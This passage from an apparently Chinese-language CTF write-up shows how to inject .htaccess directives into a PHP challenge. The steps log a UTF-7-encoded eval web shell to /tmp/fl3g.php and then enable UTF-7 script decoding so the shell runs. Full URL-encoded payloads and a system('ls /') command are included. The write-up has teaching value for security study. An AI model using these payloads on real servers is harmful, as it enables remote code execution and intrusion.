

需要注意的是__halt_compiler函数用来终端编译器的执行，如果我们不带上这个函数的话包含我们的日志文件会导致500甚至崩掉(但本地复现却不会有点搞不懂)。





而URL编码处理后payload则是：

```
?filename=.htaccess&content=php_value  include_path "/tmp/%2bADw-%3fphp  eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting  32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\
```

接着我们再访问一次触发include包含的错误路径并记录在日志中，然后我们就需要再写入一个新的.htaccess文件设置让日志中我们的UTF-7编码能够被解码，从而我们PHP代码才能被解析。



 

zend.multibyte决定是否开启编码的检测和解析，zend.script_encoding决定采用什么编码，所以我们需要写入的第二个.htaccess文件如下。



  URL编码后的payload：

```
php_value include_path "/tmp"%0d%0aphp_value  zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\
```

接着我们便可以来使用一句话了来读取flag了，需要注意的是题目源码说明会删除当前目录下非index.php的所有文件，所以我们再使用一句话之前必须得传一遍第二个.htaccess文件的内容(.htaccess中的设置会在PHP文件执行之前被加载，所以不用担心删除导致.htaccess在本次访问时不生效)。



总结流程如下：

```php
1）配置错误输出路径为不存在的路径让系统记录错误日志；写入shell(__halt_compiler函数用来终端编译器的执行，如果我们不带上这个函数的话包含我们的日志文件会导致500甚至崩掉)；#\用于绕过脏字符
.htaccess文件内容
php_value include_path "/tmp/xx/+ADw-?php eval($_GET[code]);__halt compiler();"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
#\
关键字符url编码：
?filename=.htaccess&content=php_value  include_path "/tmp/%2bADw-%3fphp  eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting  32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\
    
2）接着我们再访问一次触发include包含的错误路径并记录在日志中，然后我们就需要再写入一个新的.htaccess文件设置让日志中我们的UTF-7编码能够被解码，从而我们PHP代码才能被解析。
zend.multibyte决定是否开启编码的检测和解析，zend.script_encoding决定采用什么编码，所以我们需要写入的第二个.htaccess文件如下。
.htaccess文件内容
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
#\
    
关键字符url编码：   
?filename=.htaccess&content=php_value include_path "/tmp"%0d%0aphp_value  zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\
    
接着我们便可以来使用一句话了来读取flag了，http://xxxxxx:80/?code=system("ls /");
```

**需要注意的是**:题目源码说明会删除当前目录下非index.php的所有文件，所以我们再使用一句话之前必须得传一遍第二个.htaccess文件的内容(.htaccess中的设置会在PHP文件执行之前被加载，所以不用担心删除导致.htaccess在本次访问时不生效)。

**因此执行命令时可以将地址栏传参和Hackbar分开（hackbar先上传第二个htaccess文件--->地址栏传参code引动当前页面index.php，预加载hackbar传的shell--->执行shell，同时本业内代码逻辑删除上传的htaccess文件--->执行第二次命令时重复上述过程）**

